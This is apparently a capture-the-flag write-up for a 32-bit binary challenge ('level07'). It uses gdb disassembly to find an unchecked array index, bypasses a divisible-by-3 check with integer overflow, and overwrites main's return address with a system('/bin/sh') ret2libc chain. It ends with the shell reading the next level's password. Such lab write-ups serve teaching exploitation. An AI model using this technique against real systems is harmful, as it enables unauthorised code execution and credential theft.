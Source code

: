 ```gdb
0x08048630  store_number
0x080486d7  read_number
0x08048723  main
```

it loads the env as argv
```
<main+22>:	mov    0x10(%ebp),%eax

(gdb) p **(char ***)($ebp+0x10)
$19 = 0xffffd8be "SHELL=/bin/bash"


(gdb) p **(char ***)($ebp+0xc)
$18 = 0xffffd8a2 "/home/users/level07/level07"

(gdb) x/10s 0xffffd8a2
0xffffd8a2:	 "/home/users/level07/level07"
0xffffd8be:	 "SHELL=/bin/bash"
0xffffd8ce:	 "TERM=xterm-256color"
0xffffd8e2:	 "SSH_CLIENT=10.12.10.15 49862 4242"
```

```
 0x08048878 <+341>:	lea    0x1b8(%esp),%eax
 0x08048882 <+351>:	call   0x80484a0 <fgets@plt>
   
 <main+413>:	mov    $0x8048d5b,%eax  "store"
 <main+427>:	repz cmpsb
 
 The test instruction is commonly used to check whether a value is zero or not
 0x080488df <+444>:	test   %eax,%eax
 0x080488e1 <+446>:	jne    0x80488f8 <main+469>         jump to compar if it is 0 <+478>:	mov    $0x8048d61,%eax "read"
 0x080488e3 <+448>:	lea    0x24(%esp),%eax
 0x080488ea <+455>:	call   0x8048630 <store_number>
 
 <main+520>:	call   0x80486d7 <read_number>
   
```
 instruction `rep stos %eax,%es:(%edi)` is performing a "repeat string operation"
 
 that stores the value of the eax , ecx times at the memory location pointed to by edi.
 
 commonly used to initialize memory locations to a specific value

```
at <main+110>:	lea    0x24(%esp),%ebx
we insialize the buffer[0x64/100] to 0

this buffer is passed to store()

<main+448>:	lea    0x24(%esp),%eax
<main+455>:	call   0x8048630 <store_number>   store_number(&buffer)



<main+513>:	lea    0x24(%esp),%eax
<main+520>:	call   0x80486d7 <read_number>    read_number(&buffer)
```

debbugging
check for more [Ressources/magic_numbers.md](Ressources/magic_numbers.md)

<pre><code>

break at <main+351>:	call   0x80484a0 <fgets@plt>

Input command: store

store_number(array[100])
{
  
  Initialize two local variables with zeros.
  <+6>:     movl   $0x0,-0x10(%ebp)
  <+13>:    movl   $0x0,-0xc(%ebp)
  
  <store_number+33>:	call   0x80485e7 <get_unum>
  <store_number+38>:	mov    %eax,-0x10(%ebp)
  
  get_unum()
  {
        <get_unum+26>:	mov    $0x8048ad0,%eax    "%u"
        <get_unum+31>:	lea    -0xc(%ebp),%edx
        <get_unum+41>:	call   0x8048500 <__isoc99_scanf@plt>      scanf("%u")
  }
  
  number at -0x10(%ebp)
  index  at -0xc(%ebp)
  
  
  Perform a division-by-3 check using multiplication by the magic number 0xaaaaaaab.
  If the remainder is non-zero, skip the following block.
  
  0xaaaaaaab,%edx  (a repeating pattern of 10101010101010101010101010101011 in binary / 2863311531)
  Convert each hex digit to 4 binary digits
  check for more  [Ressources/magic_numbers.md]
  
  <store_number+65>:	mov    $0xaaaaaaab,%edx 
  <store_number+72>:	mul    %edx   ==> eax = eax * edx
  <store_number+74>:	shr    %edx  right-shifting the value of edx by one     edx = edx >> 1

If the division-by-3 check passed, check if the most significant byte of the first local variable is equal to 0xb7. If not, skip the following block.

0x0804868a <+90>:    mov    -0x10(%ebp),%eax
0x0804868d <+93>:    shr    $0x18,%eax
0x08048690 <+96>:    cmp    $0xb7,%eax
0x08048695 <+101>:   jne    0x80486c2 <store_number+146>


If either of the checks failed, store the first local variable into an array pointed to by the first function argument, withan index specified by the second local variable. Set the return value to 0.

0x080486c2 <+146>:   mov    -0xc(%ebp),%eax        index
0x080486c5 <+149>:   shl    $0x2,%eax              index * 4
0x080486c8 <+152>:   add    0x8(%ebp),%eax         &array + index
0x080486cb <+155>:   mov    -0x10(%ebp),%edx       value
0x080486ce <+158>:   mov    %edx,(%eax)            *(array + index) = value
0x080486d0 <+160>:   mov    $0x0,%eax


}
</code></pre>

  
```
if (check1 == 0 || check2 == 0) 
{
    int* array_ptr = *(int**)(ebp + 0x8);
    int value = *(int *)(ebp - 0x10);
    int index = *(int *)(ebp - 0xc);
    *(array_ptr + (index * 4)) = value;  ==> array[index] = value
    
    return 0;
}
```

```

(gdb) x/d $ebp-0x10     value
0xffffd508:     123

(gdb) x/d $ebp-0xc      index
0xffffd50c:     7 
 
(gdb) x/x $ebp+8        array_ptr
0xffffd520:    ===> 0xffffd544


 mov    -0xc(%ebp),%eax    eax = 7
 shl    $0x2,%eax          eax = 7 * 4 = 28
 add    0x8(%ebp),%eax     eax = 0xffffd544 + 28 = 0xffffd560
 mov    -0x10(%ebp),%edx   edx = 123
 mov    %edx,(%eax)        x/d 0xffffd560 = p  *(int *)0xffffd560 = 123
```

so We will overwrite the main return address using the store function.


b *main+455  // store

b *main+520  // read

where the array_ptr is located when value retrieval
```
<read_number+40>:	add    0x8(%ebp),%eax
(gdb) x/x $ebp+8
0xffffd500:	0xffffd524 <==

----
we dont need to step in the read func

only in the main we could get the &array when loaded

   0x08048924 <main+513>:	lea    0x24(%esp),%eax
   0x0804892b <main+520>:	call   0x80486d7 <read_number>
   
 (gdb) x/x $esp+0x24
0xffffd524

p/d (0xffffd6ec - 0xffffd524) / 4 = 114
python3 -c "print('{0:032b}'.format(114))"

----

0xffffd524 + 7*4 = 0xffffd540
p *(int *)0xffffd540 = 123
```
find main eip
```
info frame
eip at 0xffffd6ec

(gdb) p/d 0xffffd6ec - 0xffffd524 = 456 / 4 = 114

114 / 3 = 38
```
so this index cannot be inserted directly to the program


we will go for Integer overflow attack since the index is stored by scanf as %u
```
114 in binary
printf %032d 1110010
00000000000000000000000001110010
since the index is `shl by $0x2` will get rid of the 2 MSB
10000000000000000000000001110010 = 2147483762
```
```
(gdb) find 0xf7e2c000 , 0xf7fcc000 , "/bin/sh"
0xf7f897ec

      114               115                116
  2147483762            115                116  
[   &system  ] + [ &ret_of_system ] + [  &bin_sh   ]
[ 0xf7e6aed0 ] + [      aaaa      ] + [ 0xf7f897ec ]
[ 4159090384 ] + [   1633771873   ] + [ 4160264172 ]


Input command: store
 Number: 4159090384
 Index: 2147483762
 
Input command: store
 Number: 1633771873
 Index: 115
 
Input command: store
 Number: 4160264172
 Index: 116

Input command: quit

$ pwd
/home/users/level07
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

we could skip 115 the return of system, garbage value
```
Input command: store
 Number: 4159090384
 Index: 2147483762

Input command: store
 Number: 4160264172
 Index: 116

Input command: quit

$ pwd
/home/users/level07
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

